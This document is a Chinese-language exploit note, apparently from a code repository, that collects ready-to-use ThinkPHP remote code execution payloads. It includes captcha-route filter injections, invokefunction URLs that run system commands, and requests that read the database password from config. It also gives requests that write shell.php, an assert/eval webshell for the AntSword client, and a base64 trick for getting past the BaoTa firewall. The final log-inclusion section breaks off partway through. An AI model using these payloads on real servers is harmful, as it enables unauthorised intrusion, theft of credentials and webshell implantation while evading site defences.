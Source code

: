 # thinkphp

## 1,通用exp使用场景

```php
通用原始打phpinfo的exp:
POST:?s=captcha
-----------------------------------------------------------
_method=__construct
&method=get
&filter[0]=phpinfo
&filter[1]=var_dump
&get[]=-1

其他收集：

?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
?s=index/\think\Request/input&filter=phpinfo&data=1
?s=index/think\config/get&name=database.hostname
?s=index/think\config/get&name=database.password
?s=index/\think\Request/input&filter=system&data=id
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
?s=index/\think\view\driver\Php/display&content=<?php%20phpinfo();?>
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
### (1)php版本小宇7.0.3
查看phpinfo使用assert函数配合antsword直接链接，密码1
```php
使用assert构造antsword直接链接:
POST:?s=captcha
-----------------------------------------------------------
_method=__construct 
&method=get 
&filter[]=assert
&get[]=@eval($_POST['1']);

```
进阶玩法：遇到宝塔防火墙拦截：

众所周知，waf拦截的都是检测传入参数中是否含有函数，比如直接eval(,asser(,总之就是函数带括号了，我们上面eval($_POST[1]);直接就是一句话的原型，所以被拦截很正常，我们来想办法把参数只变成函数名不带特殊符号，这样在post穿参数的时候看起来就只是字符串了
```angular2html
直接放exp
base64编码绕过：
POST:?s=captcha
-----------------------------------------------------------
_method=__construct
&method=get
&filter[0]=base64_decode
&filter[1]=assert
&get[]=QGV2YWwoJF9QT1NUWycxJ10pOw==
```
### (2)php版本>=7.1
```angular2html
常规操作，日志包含
写入日志：
/?s=captcha
_method=__construct
&method=get
```